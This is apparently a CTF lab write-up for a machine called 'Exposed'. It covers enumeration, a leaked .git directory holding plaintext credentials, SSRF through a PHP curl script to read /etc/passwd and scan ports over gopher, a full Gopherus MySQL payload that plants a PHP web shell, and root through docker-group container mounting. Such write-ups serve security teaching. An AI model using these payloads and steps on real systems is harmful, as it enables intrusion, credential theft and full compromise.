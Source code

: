 ```yaml
---
layout: post
author: kohaku
title:  "Exposed"
date:   2022-02-26 07:42:03 PM -03
category: Crowsec 
---
```



# Enumeration

{% highlight text  %}
Nmap scan report for 10.8.0.37
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:8a:fd:d4:fd:8f:6b:86:1c:90:28:d0:8a:3b:5a:52 (RSA)
|   256 07:74:e9:b4:ac:87:85:17:ea:26:16:0f:8f:81:8e:98 (ECDSA)
|_  256 b3:ee:e8:98:47:42:c7:12:f1:29:1f:01:a5:13:41:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Login Administration
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight  %}

## Port 80

The main page is a login page, i tried SQL injection, but nothing happen.

So, i start to fuzzing

### Fuzzing

{% highlight bash  %}
ffuf -u http://10.8.0.37/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt | tee fuzz.root
{% endhighlight  %}

{% highlight text  %}
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/index              [Status: 200, Size: 630, Words: 4, Lines: 8]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6]
.git                    [Status: 301, Size: 305, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/logs/              [Status: 200, Size: 1128, Words: 77, Lines: 18]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10]
auth                    [Status: 301, Size: 305, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2706, Words: 445, Lines: 138]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10]
{% endhighlight  %}

The website has a git exposed. I use gitdumper to extract the .git directory

### Git Exposed

{% highlight bash  %}
/opt/gitdumper.sh http://10.8.0.37/.git/ git
{% endhighlight  %}

Git log shows all the commits and i use git show with the hash of the commit to view the files 

{% highlight text  %}
-> git log
commit 83022d2e8bb833b8a1f2715e2134ec7399f1e181
-> git show 83022d2e8bb833b8a1f2715e2134ec7399f1e181
{% endhighlight  %}

This commit has a lot of files, but two files are interesting 

Login.php and search.php

{% highlight text  %}
Login.php has credentials to login
'user' => 'Crows3cAdminist4ti0n',
'password' => 'S3cr3tP@ss0rd_h4rd!*#9)';

Search.php has a command using curl and system
<?php
    $cmd = "curl ".escapeshellarg($_POST['search'])." |cat";
    system($cmd);
    die();
?> 
{% endhighlight  %}

### Search page

The page has a search page, like i saw on git logs

I use burp to intercept the request and start to test 

{% highlight text  %}
search=file:///etc/passwd -> Return the /etc/passwd file 
{% endhighlight  %}

I start to get a little confused about this script with curl, take me a while to use gopher and start to scan the ports

[What is Gopher? - Definition from Techopedia](https://www.techopedia.com/definition/5360/gopher)

I created a script to do a SSRF using gopher and scan the ports

{% highlight bash  %}
for port in {22,21,80,8080,3306}; do echo $port; curl -X POST http://10.8.0.37/search.php -d "search=gopher://localhost:$port/_TEST" -b "PHPSESSID=<Use the php cookie>"; done
{% endhighlight  %}

Looking at the response, i saw the mysql response the request. This host has a MySQL on the localhost

### Gopherus

https://github.com/tarunkant/Gopherus

I use gopherus to create a mysql payload

Note: Remember to double url encode the payload. Because the php do a urldecode and this can cause issues to the payload

{% highlight text  %}
gopherus --exploit mysql
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%56%00%00%00%03%73%65%6c%65%63%74%20%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%27%63%6d%64%27%5d%29%20%3f%3e%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%73%73%65%74%73%2f%72%65%76%65%72%73%65%2e%70%68%70%22%3b%01%00%00%00%01
{% endhighlight  %}

{% highlight bash  %}
payload -> select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/assets/cmd.php" #www-data only has access to assets
{% endhighlight  %}

Burp request with double url

![DoubleURLEncode](/images/crowsec/exposed/doubleURLEncode.png)

Go to the /assets/<name>.php to access the RCE and create a reverse shell

## Root Flag

www-data is in docker group

`uid=33(www-data) gid=33(www-data) groups=33(www-data),117(docker)`

Using docker images, I saw the docker has no images and i search how to load a local image

- Step 1: Go to my machine and pull alpine image `docker pull alpine`
- Step 2: Export docker image: docker save -o <image.tar> <image> | docker save -o `alpine.tar` `alpine`
- Step 3: Transfer this .tar file to the victim machine
- Step 4: Load the docker image: docker load -i <image.tar> | docker load -i `alpine.tar`
- Step 5: Create a docker container using this image: docker run -it -v /root:/root alpine sh
